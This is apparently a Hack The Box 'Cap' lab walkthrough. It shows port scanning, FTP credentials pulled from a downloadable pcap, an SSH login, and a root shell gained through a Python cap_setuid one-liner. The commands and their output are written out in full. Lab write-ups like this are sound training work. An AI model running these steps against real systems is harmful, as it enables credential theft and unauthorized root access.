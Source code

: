
![](Pasted%20image%2020241201195858.png)

# Enumeration

Performing port scan.

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ sudo nmap -sS -T5 -p- -r cap.htb -v | grep open
Discovered open port 21/tcp on 10.10.10.245
Discovered open port 22/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
```

Checking the website. This allows us to download the pcap file.

![](Pasted%20image%2020241201202244.png)

We can download multiple pcap files from <http://cap.htb/data/2>, <http://cap.htb/data/3> etc.  

![](Pasted%20image%2020241201202412.png)

However pcap file from <http://cap.htb/data/0> has some sensitive data that I viewed using wireshark.

![](Pasted%20image%2020241201202618.png)

`0.pcap` file contains sensitive data.

![](Pasted%20image%2020241201202824.png)

This FTP username and password can also be used for ssh. Entering to ssh. 

```
┌──[hexadivine@hackthebox]─[~/ctf/tmp]
└──╼ $ ssh nathan@cap.htb
The authenticity of host 'cap.htb (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cap.htb' (ED25519) to the list of known hosts.
nathan@cap.htb's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

nathan@cap:~$ ls
user.txt

nathan@cap:~$ cat user.txt 
228a68da7cb3f43a269f6a9c9c913---
```

# Privilege Escalation

This machine has linux capabilities exploit. 

```
nathan@cap:~$ getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

`getcap` file showing `cap_setuid` set for `/usr/bin/python3.8` which is vulnerable to privilege escalation. ([click here](https://gtfobins.github.io/gtfobins/python/#capabilities))

![](Pasted%20image%2020241201204435.png)

```
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# find / -name *root.txt  2>/dev/null
/root/root.txt
# cat /root/root.txt
a7b22b5ea65a484b4c197eb5db5ac---
```

And we are ROOT.